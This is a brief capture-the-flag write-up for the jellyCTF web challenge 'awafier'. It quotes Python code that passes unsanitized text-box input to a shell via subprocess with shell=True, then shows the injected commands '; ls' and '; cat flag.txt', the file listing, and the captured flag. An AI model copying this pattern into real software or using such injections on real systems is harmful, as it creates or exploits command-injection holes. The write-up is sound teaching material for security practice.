 # awafier
Writeup author: **taodragon_**

Point count: 559pts

Difficulty: easy

Provided files: awafier.zip

Url: https://awafy-me.jellyc.tf/

Description:
> Hacked this together for Jelly's mutually beneficial partnership application
#

There is a text box, so it should be sanitized, right?

```
if user_input:
        try:
            result = subprocess.check_output("python3 ./awafier.py " + user_input, shell=True)
            result = result.decode()
        except:
            result = "Error processing input"
    else:
        result = ""
```

The text box is not sanitized, and runs `python3 ./awafier.py {user_input}` in a shell. We can try sending `; ls`, and we get

```
Dockerfile
awafier.py
awafier_maps.py
flag.txt
main.py
requirements.txt
wrapper.py
```

which confirms the exploit. We can send `; cat flag.txt` to get the flag.

Flag: `jellyCTF{c3rt1fied_aw4t15tic}`

